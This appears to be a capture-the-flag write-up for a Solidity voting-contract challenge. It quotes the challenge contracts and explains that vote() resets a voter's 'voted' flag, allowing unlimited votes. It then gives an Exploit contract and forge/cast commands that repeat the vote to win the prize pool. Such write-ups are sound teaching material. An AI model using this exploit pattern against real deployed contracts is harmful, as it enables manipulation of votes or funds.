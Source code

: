 This is some sort of voting, but it seems something is just not right? Well, let's see what the condition of *Setup.sol::isSolved()* &nbsp;  
&nbsp;  

```solidity
pragma solidity ^0.8.25;

import "./PrizePool.sol";
import "./Participants.sol";

contract Setup{
    PrizePoolBattle public immutable prizepool;
    Participant1 public immutable participant1;
    Participant2 public immutable participant2;
    Participant3 public immutable participant3;

    constructor() payable{
        require(msg.value >= 9 ether, "Need 9 ether to start challenge");
        prizepool = new PrizePoolBattle();
        participant1 = new Participant1{value: 5 ether}(address(prizepool));
        participant2 = new Participant2{value: 1 ether}(address(prizepool));
        participant3 = new Participant3{value: 3 ether}(address(prizepool));
    }

    function isSolved() public view returns(bool){
        (, uint winner) = prizepool.getWinner();
        return winner == 1;
    }

}
``` 
&nbsp;  

Well, the *isSolved()* function only returns true if the winner is the 1st party, we have to look into the *PrizePool Contract* to figure this out, but now let's analyze the constructor. It first deploy the *Prizepool Contract*, and another 3 participans with each 5, 1 and 3 Ether, now that we know that the initial setup is, let's see what the *Participant Contract* is all about. &nbsp;  
&nbsp;  
```solidity
contract Participant1{
    PrizePoolBattle public immutable prizepool;

    constructor(address _target) payable{
        prizepool = PrizePoolBattle(_target);
        prizepool.addVoter{value: 5 ether}("Michelio");
        prizepool.vote(2);
    }
}
```
&nbsp;  
We are going to take a look at the first only since the other 2 are similar, it first call the *addVote()* with 5 Ether and "**Michelio**" as name I guess, and it votes for the 2nd Party, oh no our competitor it seems. Well let's see the real deal now, the *Prizepool Contract* &nbsp;  
&nbsp;  
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.25;

contract PrizePoolBattle{
    struct Candidate {
        uint id;
        string name;
        uint voteCount;
    }

    struct Voter {
        uint id;
        string name;
        uint256 weight;
        bool voted;
    }

    mapping(uint => Candidate) public candidates;
    mapping(uint => Voter) public voters;
    mapping(address => bool) public votersExist;
    mapping(address => uint) public votersID;
    uint public candidatesCount;
    uint public votersCount;
    uint public winner;
    bool public winnerDeclared = false;

    event Voted(address indexed voter, uint indexed candidateId);
    event Winner(uint indexed candidateId, string name);

    modifier checkWinner(uint _candidateId) {
        _;
        if (candidates[_candidateId].voteCount >= 10 ether) {
            winnerDeclared = true;
            winner = _candidateId;
            emit Winner(_candidateId, candidates[_candidateId].name);
        }
    }

    constructor() {
        addCandidate("ENUMA");
        addCandidate("ALPHA");
    }

    function addCandidate(string memory _name) internal {
        require(
            keccak256(abi.encodePacked(_name)) == keccak256(abi.encodePacked("ENUMA")) ||
            keccak256(abi.encodePacked(_name)) == keccak256(abi.encodePacked("ALPHA")),
            "Only ENUMA or ALPHA can be added as candidates"
        );
        candidatesCount++;
        candidates[candidatesCount] = Candidate(candidatesCount, _name, 0);
    }
}
```
&nbsp;  
Let's view it part by part to make it more understandable, the first part of course the constructor, when this contract is deployed, it immediately call the *addCandidate()* function, this function will add a new candidates based on the *Id* as we can see on the *Struct Candidate* on the first few line, the *candidateCounts()* is the one responsible for giving the *Id* and the party can only be either *ENUMA* or *ALPHA*. Based on the constructor, we know that *ENUMA* has the *Id* of 1 and *ALPHA* has the *Id* of 2. &nbsp;  
&nbsp;  
The Modifier *checkWinner()* will check at the end of a function run, if a candidate has a vote of 10, it will declare the *winner*. Let's continue to the rest of the functions &nbsp;  
&nbsp;  
```solidity
    function addVoter(string memory _name) public payable{
        require(!votersExist[msg.sender], "Voter has already been added.");
        votersCount++;
        uint256 weight = msg.value;
        voters[votersCount] = Voter(votersCount, _name, weight, false);
        votersID[msg.sender] = votersCount;
        votersExist[msg.sender] = true;
    }

    function vote(uint _candidateId) public checkWinner(_candidateId) {
        require(votersExist[msg.sender], "You are not an eligible voter.");
        require(!winnerDeclared, "The winner has already been declared.");
        require(_candidateId > 0 && _candidateId <= candidatesCount, "Invalid candidate ID.");
        uint id = votersID[msg.sender];
        require(voters[id].voted == false, "You already vote!");
        voters[id].voted = false;
        candidates[_candidateId].voteCount += voters[id].weight * 1;
        emit Voted(msg.sender, _candidateId);
    }

    function getCandidateVoteCount(uint _candidateId) public view returns (string memory name, uint voteCount) {
        Candidate storage candidate = candidates[_candidateId];
        return (candidate.name, candidate.voteCount);
    }

    function getWinner() public view returns(string memory name, uint id){
        Candidate storage candidate = candidates[winner];
        return (candidate.name, candidate.id);
    }
```
&nbsp;  
We got 4 functions here, the first one is *addVoter()*, this function seems to check whether someone is already registered or not and after that it will increate the *votersCount()* and push it to the struct of Voter. What we know here the weight of someone vote is determined by the money they put in, and at the end it ensures that we can only register once by changing the *votersExist()* to true. &nbsp;  
&nbsp;  
Next up is the *vote()* function, we can see that the modifier *checkWinner()* is implemented here, menaing this function will be the one that trigger the change, it first has 3 check, to check wheter the voter exist, check the if the winner has been selected and the one we voted to be either 1 or 2 only. We can see there it will get our Id and check whether we already vote or not by checking the the *voted* attribute on our struct if it's already *true*, but here is the strange thing, after the check instead of setting the *voted* to true, it reset us to *false*, meaning even if we have a very low weight, we can vote multiple times! Here is the Logic error bug! &nbsp;  
&nbsp;  
The next 2 function are only for getting the state of the vote count anytime and the winner if the winner is selected. So let's wrap up about what we have now. &nbsp;  
&nbsp;  

- Party Number 2 (*ALPHA*) has 9 Votes already (5 + 1 +3) from other Participants
- Party Number 1 (*ENUMA*) has 0 Vote
- We only have 1.2 Ether (based on *cast balance*)
- We have a logic error where we can vote unlimitedly.
&nbsp;  
We have 2 choices here, we can do it manually by registering via *addVoter()* and send the vote 10 times, or we can make a Smart contract that does that. In this approach I'm going to create a Smart Contract that does just that, and here is the code &nbsp;  
&nbsp;  
```solidity
pragma solidity ^0.8.25;

import "./PrizePool.sol";
import "./Setup.sol";

contract Exploit{
    Setup public setup;
    PrizePoolBattle public pp;

    constructor(address payable _setup) payable{
        setup = Setup(_setup);
        pp = PrizePoolBattle(address(setup.prizepool()));
    }

    function exploit() public {
        pp.addVoter{value: 1 ether}("Louis");
        for(uint a = 0 ; a < 10 ; a++){
            pp.vote(1);
        }
    }

}
```
&nbsp;  
Here is how we can deploy our Exploit contract and solve the lab &nbsp;  
&nbsp;  
```bash
// Deploying the Exploit
forge create src/voting-frenzy/$EXPLOIT_FILE:$EXPLOIT_NAME -r $RPC_URL --private-key $PK --construcot-args $SETUP_ADDR --value 1ether

// Exploit the Contract
cast send -r $RPC_URL --private-key $PK $EXPLOIT_ADDR "exploit()"
```
&nbsp;  
Running the command above, you should've exploited the contract and get your flat.